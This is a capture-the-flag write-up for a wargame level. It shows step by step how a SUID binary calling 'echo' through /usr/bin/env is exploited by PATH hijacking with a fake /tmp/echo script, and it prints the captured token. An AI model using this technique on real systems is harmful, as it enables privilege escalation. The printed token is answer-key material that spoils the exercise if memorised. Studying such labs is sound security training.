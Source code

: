 # Level03 Solution

## Steps:
1. Connected via SSH: `ssh level03@192.168.16.128 -p 4242`
2. Analyzed the binary `level03`:
   - Command: `ltrace ./level03`
   - Output: `system("/usr/bin/env echo Exploit me")`
   - The binary uses `/usr/bin/env` to call `echo`, which is vulnerable to PATH hijacking.
3. Exploited PATH hijacking:
   - Created a malicious `echo` script in `/tmp`:
     ```bash
     echo '/bin/getflag' > /tmp/echo
     chmod +x /tmp/echo
     ```
   - Modified the PATH to prioritize `/tmp`:
     ```bash
     export PATH=/tmp:$PATH
     ```
4. Ran the binary:
   - Command: `./level03`
   - Output: `Check flag.Here is your token : qi0maab88jeaj46qoumi7maus`

## Notes:
- The binary is SUID and owned by `flag03`, but it calls `echo` via `/usr/bin/env` without an absolute path.
- By hijacking the PATH, we can make it execute our malicious `echo` script instead of the real one.
- The malicious script runs `/bin/getflag`, which gives the token for `flag03`.

## Tools used:
- `ltrace` (to trace library calls)
- `export` (to modify PATH)
- `chmod` (to make the script executable)